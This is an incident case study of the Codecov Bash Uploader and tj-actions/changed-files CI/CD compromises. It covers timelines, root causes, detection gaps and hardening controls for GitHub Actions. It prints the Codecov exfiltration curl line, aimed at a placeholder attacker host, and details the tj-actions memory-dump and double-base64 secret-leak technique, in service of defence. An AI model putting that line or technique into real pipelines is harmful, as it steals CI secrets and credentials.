

# Case Study: CI/CD Secret Exfiltration: Codecov Bash Uploader and tj-actions

> [!summary] Claim:
> A CI job is a process tree that holds your most valuable credentials and runs code chosen by name at execution time.
> In April 2021 the name was a URL (`https://codecov.io/bash`) whose bytes changed; in March 2025 the name was a Git tag (`tj-actions/changed-files@v45`) that was force-moved.
> Both are the same defect: a mutable reference resolved at run time, with no integrity check between the bytes someone reviewed and the bytes that executed.
> The payloads differ in a way that matters for defense: Codecov read the step's environment (`env`), so scoping secrets to fewer steps shrinks the loss; tj-actions read the memory of the runner process itself (`Runner.Worker`), so no step-level scoping helps and only job-level separation, short-lived credentials, and egress control do.

This note owns the comparative forensics of these two incidents and the control set that follows from them.
The hardening checklist and the Scorecard checks are owned by [[OpenSSF-Scorecard-and-CI-CD-Pipeline-Hardening]].
The step-by-step pipeline audit procedure is owned by [[Audit-and-Harden-a-GitHub-Actions-Release-Pipeline]].
The incident response procedure for a poisoned dependency is owned by [[Respond-to-a-Compromised-Transitive-Dependency]].



## Incident Timeline

All times are UTC unless a source gives only Pacific time or only a date.
Where sources disagree, both values are shown and the disagreement is called out.

### Codecov Bash Uploader (2021)

The Bash Uploader was the script that CI jobs fetched from `https://codecov.io/bash` and ran to upload a coverage report.
The usual invocation was `bash <(curl -s https://codecov.io/bash)`, and the official wrappers (the Codecov GitHub Action, CircleCI Orb, and Bitrise Step) ran the same script.

| Date | Event | Source |
|---|---|---|
| 2021-01-31 | First unauthorized access to a Google Cloud Storage (GCS) key that could modify the Bash Uploader; the modification period begins | Codecov security update and FAQ |
| 2021-01-31 to 2021-04-01 | Roughly 60 days of exposure; Codecov counts "108 windows of time" in which the modified script was in place | Codecov security update |
| 2021-04-01 (morning) | A customer compares the shasum of the script from `codecov.io/bash` with the one published on GitHub, sees a mismatch, and reports it | Codecov security update FAQ |
| 2021-04-01 | Codecov states it "secured and remediated the affected script" the same day | Codecov FAQ |
| 2021-04-15, 6 am PT (13:00 UTC by conversion) | Customer emails go out; the public notice is dated 2021-04-15 | Codecov security update |
| 2021-04-16 | Rapid7 publishes an analysis; Unit 42 dates Codecov's disclosure "April 16" while Codecov and Rapid7 say April 15 | Rapid7; Unit 42 |
| 2021-04-22 | CISA alert (last revised this date) tells affected users to re-roll credentials and revoke and reissue potentially affected certificates | CISA |
| 2021-04-22 | HashiCorp publishes HCSEC-2021-12: the GPG private key used to sign the SHA256SUM files of its product downloads was exposed because a subset of its CI pipelines used the affected uploader; the exposed keypair was revoked and a new one published | HashiCorp HCSEC-2021-12 |
| 2021-04-29, 3 pm PT (22:00 UTC by conversion) | Codecov update: affected customers can see in the Codecov application which environment variables may have been obtained | Codecov security update |

Two intervals matter for incident response.
Detection took about 60 days from first modification, and customer notification took a further 14 days after discovery (2021-04-01 to 2021-04-15).
Codecov's stated reason for the first interval is that nobody had been comparing the served script against a published hash; a customer who did so found it.

### reviewdog and tj-actions/changed-files (2025)

| Date and time (UTC) | Event | Source |
|---|---|---|
| 2024-11-28 to 2025-03-11 | A SpotBugs maintainer adds their own PAT to a `spotbugs/sonar-findbugs` workflow (2024-11-28); a malicious pull request on 2024-12-06 exploits a `pull_request_target` workflow there and leaks that PAT; on 2025-03-11 10:50:16 the attacker uses it to invite an attacker account to `spotbugs/spotbugs`, pushes a malicious workflow, and leaks the secrets of that repository, including a reviewdog maintainer's personal access token (PAT) with access to `reviewdog/action-setup` | Unit 42 (update of 2025-04-02) |
| 2025-03-11 17:06 and 17:21 | Attacker forks of `reviewdog/action-setup` and an `action-typos` fork are created | Unit 42 |
| 2025-03-11 18:42 to 20:31 | Tag `v1` of `reviewdog/action-setup` points at malicious code, about 1 hour 49 minutes; the payload is base64 inserted into `install.sh` and dumps runner secrets into the log, double base64 encoded | GHSA-qmg3-hpqr-gqvc; Wiz; CISA |
| 2025-03-11 onward | Reviewdog actions that call `action-setup` internally inherit the payload regardless of how the consumer pinned them: `action-shellcheck`, `action-composite-template`, `action-staticcheck`, `action-ast-grep`, `action-typos` | GHSA-qmg3-hpqr-gqvc; Wiz; CISA |
| 2025-03-11 to 2025-03-14 | `tj-actions/eslint-changed-files` runs `action-setup@v1` in a `tj-actions/changed-files` workflow that holds a PAT of the `tj-actions-bot` account; the PAT is exposed (Wiz calls the link likely; Unit 42 says it can "now confirm" it) | Unit 42; Wiz |
| 2025-03-14 16:57:45 +0000 (commit date) | Commit `0e58ed8671d6b60d0890c21b07f8835ace038e67` with message "chore(deps): lock file maintenance (#2460)", showing `renovate[bot]` as author but unverified | Issue 2463; StepSecurity; GHSA |
| 2025-03-14, about 16:00 | StepSecurity dates the start of the incident to "4:00 PM March 14th, 2025 UTC"; Harden-Runner flags an unexpected call to `gist.githubusercontent.com` | StepSecurity |
| 2025-03-14 | Existing release tags of `tj-actions/changed-files` are moved to the malicious commit; the advisory names `v1.0.0`, `v35.7.7-sec`, and `v44.5.1`, StepSecurity also names `v5`, and sources say "multiple" (GHSA) or "most" (StepSecurity) tags, not a count; Aqua says "nearly all tagged versions" were compromised (Wayback copy of the Aqua page, read 2026-11, as the live page returns HTTP 403 to scripted clients) | GHSA; StepSecurity; Aqua |
| 2025-03-15 14:00 | GitHub removes the action, making it unavailable to workflows | StepSecurity |
| 2025-03-15 22:00 | GitHub restores the repository; "all versions of the Action were cleaned" | StepSecurity |
| 2025-03-15 | GHSA-mrrh-fwg8-r2c3 published; CVSS v3.1 8.6 (High), `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N/E:H`, CWE-506 (Embedded Malicious Code); fixed in 46.0.1, affected `<= 45.0.7` | GHSA |
| 2025-03-15 | Maintainer states the attack "appears to have been conducted from a PAT token linked to" the `tj-actions-bot` account, that GitHub could not determine how the PAT was compromised, and that signed commits were required; tags restored "except for v45.0.5 through v45.0.9" | Issue 2464 |
| 2025-03-18 and 2025-03-24 | CISA adds CVE-2025-30066 (2025-03-18) and CVE-2025-30154 (2025-03-24) to the Known Exploited Vulnerabilities catalog; the CISA alert records both in an update dated 2025-03-26 | CISA KEV catalog `dateAdded`; CISA alert |

The sources disagree on the exposure window, and the note keeps all three values rather than picking one.
StepSecurity measures from the observed malicious commit to the GitHub removal: about 22 hours (2025-03-14 16:00 to 2025-03-15 14:00).
The GHSA says "between March 14 and March 15".
CISA and Sysdig use a wider window, 2025-03-12 00:00 to 2025-03-15 12:00; Sysdig states "the attack was carried out on March 12, 2025" but gives no evidence for that start, and CISA gives no reason.
Git commit dates are author-controlled, so `16:57:45 +0000` is evidence about what the attacker wrote in the commit, not an authoritative push time.

The "over 23,000 repositories" figure appears in the GHSA, StepSecurity, Snyk, and Aqua.
It counts repositories that used the action, not repositories that leaked secrets, and no fetched source gives the second number.

## Mechanism Root Cause

### Codecov: a hosted script with no pin and an exfiltration line

The root cause Codecov states is "an error in Codecov's Docker image creation process that allowed the actor to extract the credential required to modify our Bash Uploader script" (Codecov security update).
The FAQ identifies the credential as a GCS key.
Codecov also says it has not "been able to determine conclusively who carried out the event".

The only change made to the script, per Codecov, was one added line, reported as being at line 525 of the script.
With the destination host replaced by a placeholder, it is:

```bash
curl -sm 0.5 -d "$(git remote -v)<<<<<< ENV $(env)" https://ATTACKER-HOST.example/upload/v2 || true
```

Each part is chosen for stealth:

- `-s` silences curl's progress meter, so CI logs show nothing.
- `-m 0.5` caps the whole transfer at 0.5 seconds, so a slow or dead attacker server adds at most half a second to a build, below the noise of a CI job.
- `-d` makes the request a POST with the data in the body, so nothing sensitive lands in a URL that proxies log.
- `|| true` swallows a failure, so `set -e` in the caller cannot turn a failed exfiltration into a visible build failure.
- `$(git remote -v)` prints the fetch and push URLs.
  Some CI checkouts embed a token in the remote URL, in which case this leaks a repository credential even if no environment variable holds it.
- `$(env)` prints every exported variable of the process.
  The script runs as a child of the CI step, so it inherits the step's full environment, including every secret mapped into that step or into the job.
- The `<<<<<< ENV` marker is the uploader's own section delimiter: the archived final version of the `codecov` script writes `<<<<<< ENV`, `<<<<<< network`, and `<<<<<< EOF` into its report body, so the exfiltrated body looks like a normal upload (codecov-bash `codecov` script; the 2021 compromised copy itself was not read).

Codecov lists the data at risk as "any credentials, tokens, or keys that our customers were passing through their CI runner", the services reachable with them, and the git remote URL.
Rapid7 adds the concrete classes: AWS IAM keys, deploy keys, API keys, service accounts, passwords, and authentication tokens.

Two properties of this payload set the control strategy later in this note.
First, `env` only sees exported variables: a non-exported shell variable, a credential stored in a file such as `~/.aws/credentials`, or a secret kept only in a different step's environment is not in the dump (this one-line behavior was verified locally, see the interview questions).
Second, the attacker needs no code execution beyond the one line, no privilege escalation, and no persistence.
The exposure is exactly "whatever environment the step had".

The delivery channel is why the attack worked at all.
`bash <(curl -s URL)` uses process substitution: bash opens a file descriptor on `/dev/fd/N` fed by curl and executes whatever arrives.
There is no version in the URL, no hash, no signature, and no copy of the script that anyone reviewed.
The bytes that run are whatever the server returns at the moment of the request.

### tj-actions: a mutable tag, a bundled dist, and runner memory

A GitHub Actions step written as `uses: owner/repo@ref` is resolved by the service and the runner at job start: the ref is looked up in the action's repository and the contents at that commit are downloaded and run.
Tags are Git refs, and any identity with write access to the repository can force-move one.
GitHub's own documentation says a tag "can be moved or deleted if a bad actor gains access to the repository storing the action" (Secure use reference, as of 2026-11).
A branch name such as `main` is mutable by design.
Only a full-length commit SHA names one tree of content, and the Secure use reference says to verify that the SHA is "from the action's repository and not a repository fork".

`tj-actions/changed-files` is a JavaScript action, so the file the runner executes is a committed bundle, `dist/index.js`, not the TypeScript sources.
Snyk reports that the malicious change was in `dist/index.js`, and Sysdig describes it as an injected Node.js function carrying base64-encoded instructions.
Snyk and the opening post of issue 2464 show a function, `updateFeatures`, that calls `exec.getExecOutput('bash', ['-c', ...])` with the pattern `echo "<base64>" | base64 -d > /tmp/run.sh && bash /tmp/run.sh`.
A reviewer reading `src/` sees nothing, and a reviewer reading `dist/` sees a minified bundle where one more base64 string is invisible.

The decoded shell step, as StepSecurity reports it, does this in order:

1. It guards on `[[ "$OSTYPE" == "linux-gnu" ]]` and exits 0 otherwise, so macOS and Windows runners run the action normally.
2. It downloads `memdump.py` from a public gist and pipes it to `sudo python3`.
3. It filters the output with `tr -d '\0'` and `grep -aoE '"[^"]+":\{"value":"[^"]*","isSecret":true\}'`, then `sort -u`.
4. It pipes the result through `base64 -w 0 | base64 -w 0` and runs `echo` on the result; the JavaScript wrapper captures that stdout (`silent: true`) and writes it to the job log with `core.info(stdout)` (issue 2464).

`memdump.py`, as StepSecurity and Snyk describe it, finds the process whose `/proc/<pid>/cmdline` contains `Runner.Worker`, parses `/proc/<pid>/maps`, and for every region with the read permission seeks into `/proc/<pid>/mem` and writes the bytes to stdout.
The secret recognition is done by the shell `grep`, not by the Python.

Why this finds secrets: the runner receives the job's secrets from the service and holds them in the memory of the `Runner.Worker` process, tagged with an `isSecret` flag (the `{"value":...,"isSecret":true}` shape the grep matches).
The action step runs as a child process and reads another process's memory.
Reading `/proc/<pid>/mem` is authorized by a `PTRACE_MODE_ATTACH_FSCREDS` check (proc_pid_mem(5)).
Under the Yama `ptrace_scope` setting 1, a process may attach only to its descendants, and `Runner.Worker` is the parent of the step, not its descendant (Yama documentation).
The payload runs the reader under `sudo`, which sidesteps that restriction: the Yama documentation says attaching to an arbitrary PID still works with `CAP_SYS_PTRACE` ("as root"), and root has it.
GitHub documents that its Linux and macOS hosted virtual machines "run using passwordless `sudo`" (GitHub-hosted runners reference, as of 2026-11), so the `sudo` needs no credential.

Why double base64: the log writer masks known secret values.
The runner source defines a set of value encoders for masking (`Base64StringEscape`, `Base64StringEscapeShift1`, `Base64StringEscapeShift2`, `CommandLineArgumentEscape`, `ExpressionStringEscape`, `JsonStringEscape`, `UriDataEscape`, `XmlDataEscape`, `TrimDoubleQuotes`, and PowerShell escapes in `ValueEncoders.cs`), where the shifted base64 variants exist because the leading content changes the base64 output for the same secret.
I did not read the registration code, so I cannot say which encoders apply to a given secret.
The GitHub documentation says plainly that "automatic redaction is not guaranteed", that "structured data can cause secret redaction within logs to fail", and that if you transform a secret you must register the new value too.
The payload's output is a deduplicated list of JSON fragments encoded twice, which no masker keyed on the secret value or a single encoding of it would match.
No source states why the attacker chose the double encoding, so this note makes no claim about intent; the observable fact is the one above, that the output matches no single-encoding mask.
Decoding is `base64 -d | base64 -d`, as the GHSA says.

Exfiltration is the part the sources disagree on.
StepSecurity says "there is no evidence that the leaked secrets were exfiltrated" off the runner, and Wiz and Unit 42 say no external exfiltration was observed.
The leak channel was the workflow log: for a public repository the log is world readable, so a double base64 blob in a public log is a public secret.
The issue thread's opening post says the payload sends secrets to a gist, and commenters contradict that; Sysdig reports a different variant, in the Flank project, that exfiltrated the data with a POST request to a GitHub Gist.
The safe reading is that the confirmed channel was the log, and that for private repositories the exposure is limited to people with log access, which is still a wide audience inside most organizations.

### The upstream chain and why SHA-pinning the top level did not always help

Wiz, Unit 42, and CISA connect the two incidents: a malicious `reviewdog/action-setup@v1` ran inside a `tj-actions/changed-files` workflow through `tj-actions/eslint-changed-files`, and the runner's credentials, including the `tj-actions-bot` PAT, appeared in the log.
That PAT could push to `tj-actions/changed-files`, so the attacker could commit and retag.
The maintainer later said the PAT "was stored as a GitHub action secret which has since been revoked".
Wiz calls its link between reviewdog and tj-actions "likely", Unit 42 says it can "now confirm" it, and the maintainer relayed that "GitHub is not able to determine how this PAT was compromised", so the chain is the best-supported reading, asserted by one vendor and not confirmed by GitHub.

The reviewdog half carries the sharpest lesson about pinning.
The advisory and Wiz say the downstream reviewdog actions are affected "regardless of version or pinning method", because they call `reviewdog/action-setup@v1` inside their own composite definition.
A consumer who pinned `reviewdog/action-shellcheck` to a SHA still ran a mutable `@v1` reference one level down.
A consumer who pinned `reviewdog/action-setup` itself to a hash was not affected (Wiz, as of 2025-03-17).
Pinning only the top-level `uses:` line fixes direct references and leaves the transitive ones.
Workflow dependency lockfiles, which became generally available on 2026-10-28, record commits for transitive dependencies of an onboarded workflow, and are covered under Remediation and Fix.

### The two attacks side by side

| Dimension | Codecov Bash Uploader (2021) | tj-actions/changed-files (2025) |
|---|---|---|
| Mutable reference | URL `https://codecov.io/bash`, content served by Codecov | Git tags on `tj-actions/changed-files`, and `reviewdog/action-setup@v1` upstream |
| How the attacker gained write access | Leaked GCS key from a Docker image build process | A PAT of the `tj-actions-bot` account, reported as exposed through a reviewdog action (confirmed by Unit 42, likely per Wiz; GitHub did not determine the origin) |
| What changed | One line added to a shell script | Tags moved to a commit that changed `dist/index.js` |
| Execution context | Child of the CI step, environment inherited | Child of `Runner.Worker`, run as root through `sudo` to read the parent's memory |
| What it reads | `env` and `git remote -v` of that step | Every `isSecret` value in the runner process memory for the job |
| Is step-level secret scoping a defense | Yes: a secret not in the step's environment is not in `env` | No: the memory of the runner holds secrets of the whole job |
| Where the data went | HTTP POST to an attacker server | The workflow log, double base64; no confirmed off-runner exfiltration |
| Who noticed | A customer verifying a published shasum | A runtime egress monitor (StepSecurity Harden-Runner) flagging a call to `gist.githubusercontent.com` |
| Exposure | About 60 days | About 22 hours (StepSecurity); up to about 3.5 days (CISA window) |
| Would a SHA pin of the first-party step have helped | Not applicable, no SHA existed for a hosted script; a checksum check would have | Yes for direct pins to a pre-compromise SHA; no for composites with mutable internal refs |
| Persistence on the host | None needed | None needed on ephemeral hosted runners |

## Detection Gap

Why unit tests, code review, and linters did not catch either attack:

- No test in the victim's pipeline exercises the integrity of a downloaded tool.
  A coverage upload step succeeds whether it uploads coverage or also posts the environment, because the added `curl` is fire-and-forget and returns success through `|| true`.
- Code review saw nothing.
  For Codecov, the script was never in the victim's repository, and the repository on GitHub (the source of the published shasums) was not the artifact that changed.
  For tj-actions, there was no pull request: the attacker pushed a commit directly with a forged author, so branch review rules never ran, and the changed file was a bundled `dist/index.js`.
- Linters and SAST read first-party source.
  Neither a `curl | bash` that has no hash nor a `uses:` tag reference is a defect in the source of a program, so only a policy check on the workflow file, such as the Scorecard `Pinned-Dependencies` check, flags it (owned by [[OpenSSF-Scorecard-and-CI-CD-Pipeline-Hardening]]).
- Software composition analysis lists libraries in a build output.
  A tool fetched at build time is not a dependency in any lockfile or SBOM (see [[SBOM-Standards-SPDX-CycloneDX-and-VEX]]), so there is nothing to match against an advisory feed until after disclosure.
- Secret scanning of the repository finds committed secrets.
  These secrets were never committed; they were injected at run time.
- Log masking is not a detector.
  It is a best-effort redaction of known values, and the GitHub documentation says it is not guaranteed.

Why humans did not see the runtime signal:

- The Codecov line was designed to make no visible difference: silent flag, 0.5 second budget, failure swallowed.
- The tj-actions output was a single long line of base64 in the log of a step that normally prints a list of filenames.
  Nothing alerts on that unless a rule looks for it.
- Both incidents were detected by a control that compares an observable to an independent reference: a published shasum on a different host (Codecov), and a baseline of expected network destinations (StepSecurity Harden-Runner, which flagged the gist call).
  The Codecov detection also shows the limit of a checksum: it worked because the hash was published on GitHub, a separate system from the one Codecov served the script from.
  A hash published next to the artifact on the same server is compromised by the same credential.

What detection looks like for the generic case:

| Signal | Detects | Needs |
|---|---|---|
| Hash of a fetched tool compared to a value from a different origin | Codecov class | The expected hash held in your repository or a separate system |
| Egress allowlist or egress monitoring per job | Both, at the exfiltration step | A per-job baseline; on hosted runners a third-party agent or a self-hosted network policy (GitHub's native egress firewall for hosted runners was listed as a public-preview item 6 to 9 months after the 2026-03-26 roadmap post, so it is not assumed to exist here) |
| A process reading `/proc/<pid>/mem` of another process | tj-actions class | Runtime process telemetry (Sysdig reports detection rules for dumping memory through the `/proc` filesystem and for base64-piped commands) |
| Long base64 strings in workflow logs of steps that should not emit them | tj-actions class, after the fact | Log search; the GHSA gives the decode command for triage |
| A tag or ref moving on a repository you depend on | Both Git-tag and mutable-ref attacks | A resolved-commit record per workflow run, which lockfiles now provide |

## Remediation and Fix

### What the vendors and maintainers did

- Codecov rotated all relevant internal credentials including the key used to modify the script, audited where the key was reachable, set up monitoring and auditing so the Bash Uploader cannot change unnoticed, and worked with the hosting provider to decommission the attacker server.
- Codecov told customers to run `env` in CI and rotate every private or sensitive credential it printed, audit how those credentials were used, and check any local copy of the uploader for the `curl -sm 0.5 -d "$(git remote -v)` string.
- Codecov replaced the Bash Uploader with a binary uploader (now documented as the Codecov CLI) that "can be integrity checked against a known GPG key signature, and can also have its contents checked via SHASUM" (Codecov docs, as of 2026-11).
  The docs give key ID `ED779869`, distributed through Keybase and keyservers, and say to run `gpg --verify codecov.SHA256SUM.sig codecov.SHA256SUM` followed by `shasum -a 256 -c codecov.SHA256SUM` (GnuPG 2.4.3 or newer; older GnuPG uses `gpgv`).
  The `codecov-bash` repository README states the Bash Uploader was to be "fully sunset" on 2022-02-01, and the repository was archived on 2023-01-10.
  The docs I read give no end-of-life date for the hosted Bash Uploader, only that no more features are added.
- GitHub removed `tj-actions/changed-files` for roughly eight hours on 2025-03-15 (14:00 to 22:00 UTC, per StepSecurity) and restored it after cleaning; the maintainer revoked the PAT, required signed commits, enabled tag protection rules against tags on unverified commits, and said that going forward no PAT would be used for any project in the `tj-actions` organization (issue 2464).
- The reviewdog maintainers reverted `v1` of `action-setup` to `3f401fe`, and CISA advised updating to that SHA.
- `tj-actions/changed-files` 46.0.1 is the fixed version.
  A third-party fork was also published as a stopgap (StepSecurity's `step-security/changed-files`); using a fork of a compromised action is a trust decision, not an assumption of safety.

### What an affected consumer did

For tj-actions, the actions in the advisories and vendor posts are:

1. Search workflow runs from the exposure window for a step of `tj-actions/changed-files` and for the reviewdog actions listed above.
2. In those logs, search for long base64 strings in the changed-files step and decode them twice to see which secrets leaked.
3. Rotate every secret that the job could see, not only the ones found, because the memory scrape captured the whole job's secret set.
4. Delete or restrict the affected workflow runs, since logs of public repositories are public.
5. Replace the reference with a full-length commit SHA of a version audited after the fix, or with a lockfile entry.

The shell form of steps 1 and 2 is below.
These commands were not run in this job; they use only documented `gh` and coreutils behavior and need `gh auth login` and a repository you own.

```bash
# List recent runs of a workflow, then pull one run's log and look for long base64 runs.
gh run list --workflow ci.yml --limit 50
gh run view RUN_ID --log | grep -E '[A-Za-z0-9+/=]{200,}' | head -c 400

# Decode the double encoding (the order GHSA-mrrh-fwg8-r2c3 gives).
printf '%s' "$BLOB" | base64 -d | base64 -d
```

### Hardened workflow, with each control mapped to a failure above

The YAML below uses placeholder SHAs; take the real value from a release you reviewed, in the action's own repository.

```yaml
name: ci
on:
  pull_request:
  push:
    branches: [main]

# Deny by default: a compromised step receives a read-only, short-lived token.
permissions: {}

jobs:
  changed-files:
    runs-on: ubuntu-latest
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@<40-hex-sha-of-reviewed-release>   # v4.x.y
        with:
          persist-credentials: false     # no token left in .git/config for later steps
      - id: changed
        uses: tj-actions/changed-files@<40-hex-sha-after-46.0.1-reviewed>   # v46.0.1+
      # No secrets mapped into this job at all.

  publish:
    needs: changed-files
    runs-on: ubuntu-latest
    environment: release              # required reviewers and branch rules live here
    permissions:
      contents: read
      id-token: write                 # OIDC: mint a short-lived cloud credential
    steps:
      - uses: actions/checkout@<40-hex-sha-of-reviewed-release>   # v4.x.y
        with:
          persist-credentials: false
      # First-party, pinned steps only; credentials obtained by OIDC, not stored secrets.
```

What each line buys, tied to the incidents:

- `permissions: {}` at the top and per-job grants: the `GITHUB_TOKEN` of a job is an installation token that "expires when the job finishes or after its effective maximum lifetime", at most 6 hours on GitHub-hosted runners (GITHUB_TOKEN docs, as of 2026-11), but its scope is yours to cut.
- Separate jobs for untrusted-input steps and for publishing: on GitHub-hosted runners each job gets its own virtual machine, so a memory scrape in the `changed-files` job cannot see the memory of the `publish` job.
  This is the job-level boundary the tj-actions payload cannot cross, and the step-level boundary it ignores.
- `persist-credentials: false`: Codecov's `git remote -v` and any later step reading `.git/config` would otherwise find a token.
- `environment: release`: secrets scoped to an environment with required reviewers are released only to jobs that reference it.
- OIDC (`id-token: write`): GitHub's documentation lists "no cloud secrets" as the benefit, and the cloud provider issues "a short-lived access token that is only valid for a single job".
  A memory scrape of such a job yields a credential that dies minutes later rather than a key that lives for years.

### Controls for the delivery channel

For tool scripts and binaries (the Codecov class), verify against a hash that does not come from the same server:

```bash
set -euo pipefail
url="https://example.invalid/installer.sh"
expected_sha256="PASTE-HASH-FROM-YOUR-OWN-REPOSITORY"   # committed, reviewed, changed by PR

curl --fail --silent --show-error --location "$url" --output installer.sh
printf '%s  installer.sh\n' "$expected_sha256" | sha256sum -c -   # shasum -a 256 -c - on macOS
bash installer.sh
```

The hash lives in your repository, so changing it needs a pull request and review.
The `codecov-bash` README's own check takes the SHASUM files from `raw.githubusercontent.com`, a different host from `codecov.io`, which is the property that made the 2021 mismatch visible.

For actions (the tj-actions class), the control ladder, strongest last:

| Control | Stops tag movement | Stops transitive mutable refs | Notes (as of 2026-11, GitHub.com) |
|---|---|---|---|
| Pin to a tag | No | No | GitHub's docs say a tag "can be moved or deleted" |
| Pin top-level `uses:` to a full SHA | Yes, for that line | No | Verify the SHA is in the action's repository and not a fork; an Actions policy can require SHA pinning, where "any workflow that attempts to use an action that isn't pinned will fail" (changelog 2025-08-15) |
| Maintainer publishes immutable releases | Yes for new releases | Depends on the action's own internals | GA 2025-10-28: tags of new immutable releases "are protected and can't be deleted or moved"; existing releases stay mutable unless republished |
| Workflow lockfile `.github/workflows/actions.lock` | Yes | Yes for transitive action dependencies, except dependencies of reusable workflow calls (`jobs.<job_id>.uses`), which it does not pin | GA 2026-10-28 for Free, Team, Enterprise Cloud (including data residency); generated by the `gh actions-lock` extension; each dependency of an onboarded workflow must be in the lockfile; a Require lockfile policy exists; GitHub says lockfiles do not determine whether a dependency is safe |
| Vendor or fork the action into your org and review | Yes | Yes if you review internals | Costs review time and update lag, see [[Enterprise-Third-Party-Code-Ingestion-and-Quarantine-Architecture]] |

GitHub's Secure use reference says a lockfile "supersedes SHA pinning for repositories that adopt it".
The enforcement points above are as of 2026-11 and were read from GitHub documentation and changelog pages, not tested here.

## Architectural Lessons

### 1. A reference you do not control, resolved at run time, is a remote code execution grant

Treat `curl | bash`, `uses: x@tag`, `pip install` from a mutable index, and a `latest` container tag the same way: each lets a third party choose what runs in your trust domain at execution time.
The fix is the same in every case: resolve once, review, record an immutable identifier (a content hash or a commit), and make the run fail if the bytes differ.
The registry variants of this are owned by [[Dependency-Confusion-Typosquatting-and-Registry-Attacks]], and the build-provenance version is owned by [[SLSA-Framework-Build-and-Source-Tracks]].

### 2. The trust boundary is the job (and on hosted runners the VM), not the step

Codecov's payload was bounded by the step environment; tj-actions' was bounded by the machine.
Design as if any third-party step in a job can read every secret that job holds.
Practical rules that follow:

- A job that runs third-party or untrusted-input steps holds no secrets and has `permissions` of read-only or none.
- A job that holds publishing credentials runs only first-party code and SHA-pinned or locked actions.
- Pass an artifact between the two jobs, never a credential.
- Prefer many small jobs over one long job with every secret in scope, accepting the cost of artifact hand-offs and extra job startup time.

### 3. Prefer short-lived, audience-bound credentials over stored secrets

A secret in memory is an asset only as long as it is valid.
OIDC federation from the workflow to the cloud provider issues a token valid for a single job, with claims such as `sub`, `repository`, `ref`, `environment`, and `job_workflow_ref`, so the cloud side can refuse any workflow, branch, or environment you did not name (GitHub OpenID Connect docs, as of 2026-11).
For GitHub itself, a GitHub App installation token is short-lived, where a PAT such as the `tj-actions-bot` one is long-lived; GitHub's secrets docs recommend short-lived GitHub App tokens over PATs.
The credential-rotation burden after an incident is also proportional to how many long-lived secrets existed: the Codecov and tj-actions cleanups were mostly rotation work.

### 4. Make egress a policy, not an accident

Both exfiltration steps needed an outbound connection or a visible log (the Codecov POST; the tj-actions gist fetch and log write).
An allowlist of destinations per job turns the Codecov POST into a blocked connection and flags the `gist.githubusercontent.com` fetch.
On self-hosted runners this is ordinary network policy.
On hosted runners it needs a runtime agent or, per the 2026-03-26 GitHub roadmap, a native firewall that was listed as a future public preview, so verify its current state before relying on it.

### 5. Maintainer identity is part of your attack surface

The tj-actions compromise began with a stolen long-lived token for a bot account, and the commit was disguised as the Renovate bot.
For maintainers: no PAT with push rights on release refs, tag protection or rulesets that forbid tag updates and deletions, required signed commits (the maintainer enabled this on 2025-03-15), and a documented process for who can move a tag.
For consumers: prefer a signed, immutable release you verify over a ref you trust by name, and apply the same scrutiny to the maintainer's own CI workflows, since a leaked secret there compromises the action for everyone.

### 6. Know when a CI platform default has changed

As of 2026-11, GitHub has announced that from 2026-12-02 `pull_request_target` events will be blocked by default in public repositories unless an Actions event policy allows them, initially in evaluate mode, with brownouts on 2026-11-09 and 2026-11-16 (changelog 2026-11-02).
Unit 42 traces the first link of the reviewdog chain to a `pull_request_target` workflow: a malicious pull request to `spotbugs/sonar-findbugs` on 2024-12-06 leaked a maintainer PAT that the attacker used three months later (Unit 42, update of 2025-04-02).
The general rule stands: `pull_request_target` runs in the context of the base repository with access to its secrets, so a workflow that checks out and runs code from the pull request head is a secret-exfiltration primitive, and the owning treatment is [[OpenSSF-Scorecard-and-CI-CD-Pipeline-Hardening]].

### Commands and numbers to know

| Fact | Value | Platform and date |
|---|---|---|
| Codecov modified-script exposure | 2021-01-31 to 2021-04-01, about 60 days | Both, historical |
| Codecov discovery to public notice | 2021-04-01 to 2021-04-15, 14 days | Both, historical |
| Codecov exfiltration timeout | `curl -m 0.5`, 0.5 seconds | Both, historical |
| `reviewdog/action-setup@v1` malicious window | 2025-03-11 18:42 to 20:31 UTC, about 1 hour 49 minutes | Linux runners, historical |
| tj-actions malicious window | about 22 hours by StepSecurity, up to about 3.5 days by CISA | Linux runners, historical |
| Repositories using tj-actions/changed-files | over 23,000 (a usage count) | Both, 2025-03 |
| CVE-2025-30066 | CVSS v3.1 8.6, CWE-506, fixed in 46.0.1 | Both, as of 2026-11 |
| Payload OS guard | `$OSTYPE == linux-gnu` only | Linux, 2025-03 |
| `GITHUB_TOKEN` maximum life | 6 hours on GitHub-hosted, up to 24 hours refresh on self-hosted | GitHub.com, as of 2026-11 |
| SHA pinning enforcement policy | checkbox in the allowed-actions policy | GitHub.com, since 2025-08-15 |
| Immutable releases | GA 2025-10-28, new releases only unless republished | GitHub.com |
